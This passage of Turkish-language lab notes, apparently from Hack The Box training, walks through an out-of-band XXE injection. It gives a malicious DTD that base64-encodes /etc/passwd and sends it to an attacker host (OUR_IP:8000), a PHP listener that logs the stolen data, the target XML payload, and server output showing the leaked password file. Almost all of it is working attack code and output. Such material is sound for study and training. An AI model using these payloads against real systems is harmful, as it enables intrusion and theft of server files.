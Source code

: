 `Local`

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

`Local`

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

`Local`

```shell-session
C4RT3L@htb[/htb]$ vi index.php # Burada yukarıdaki PHP kodunu yazıyoruz
C4RT3L@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

`Hedef'te` 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

![Pasted image 20250513235700.png](/img/user/resimler/Pasted%20image%2020250513235700.png)

`Sonuç` 

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

### 15- XXEinjector ile Otomatik OOB XXE Saldırısı
